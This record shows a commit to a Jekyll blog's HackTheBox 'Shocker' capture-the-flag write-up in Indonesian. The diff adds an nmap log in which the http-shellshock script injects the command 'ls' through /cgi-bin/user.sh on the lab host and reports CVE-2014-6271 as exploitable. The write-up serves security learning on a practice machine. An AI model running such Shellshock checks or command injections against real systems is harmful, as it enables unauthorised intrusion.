

Before and after one commit to ilhamhanifan/ilhamhanifan.github.io, a Jekyll site: the page built from _posts/2021-07-07-HTB Shocker Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1800 px. Shown: the whole window, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2021-07-07-HTB Shocker Writeup.md

````diff
--- a/_posts/2021-07-07-HTB Shocker Writeup.md
+++ b/_posts/2021-07-07-HTB Shocker Writeup.md
@@ -72,6 +72,41 @@ END_TIME: Wed Jul  7 04:23:20 2021
 DOWNLOADED: 4685 - FOUND: 3
 ```
 Ada folder cgi-bin yang mencurigakan. Lakukan lagi scan pada /cgi-bin
+
+# NMAP:cgi/bin
+```
+┌──(kali㉿kali)-[~/htb/shocker]
+└─$ cat 2nmap.txt
+# Nmap 7.91 scan initiated Wed Jul  7 07:25:53 2021 as: nmap -A -v --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls -oN 2nmap.txt 10.10.10.56
+Nmap scan report for 10.10.10.56
+Host is up (0.070s latency).
+Not shown: 998 closed ports
+PORT     STATE SERVICE VERSION
+80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
+| http-shellshock:
+|   VULNERABLE:
+|   HTTP Shellshock vulnerability
+|     State: VULNERABLE (Exploitable)
+|     IDs:  CVE:CVE-2014-6271
+|       This web application might be affected by the vulnerability known
+|       as Shellshock. It seems the server is executing commands injected
+|       via malicious HTTP headers.
+|
+|     Disclosure date: 2014-09-24
+|     References:
+|       http://seclists.org/oss-sec/2014/q3/685
+|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
+|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
+2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+
+Read data files from: /usr/bin/../share/nmap
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+# Nmap done at Wed Jul  7 07:26:06 2021 -- 1 IP address (1 host up) scanned in 12.37 seconds
+
+```
+
 
 Ada file user.sh, jika dibuka di browser bisa didownload dan berikut adalah isinya
 ```
````
